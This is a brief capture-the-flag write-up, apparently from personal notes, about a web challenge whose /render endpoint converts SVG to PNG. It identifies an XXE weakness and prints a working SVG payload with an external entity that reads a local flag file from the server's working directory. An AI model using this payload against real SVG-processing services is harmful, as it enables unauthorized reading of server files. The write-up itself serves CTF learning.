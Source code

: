 ![[Pasted image 20230222093051.png|500]]

```
/
```

![[Pasted image 20230222093257.png|500]]

```
/render
```

![[Pasted image 20230222093428.png|300]]

可以将SVG转成PNG，存在XXE的可能性

```svg
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg [
	<!ENTITY flag SYSTEM "file:///proc/self/cwd/flag.txt">
]>
<svg ...>
	...
	<text ...>&flag;</text>
</svg>
```

![[Pasted image 20230222100657.png|300]]

#Web #svg #XXE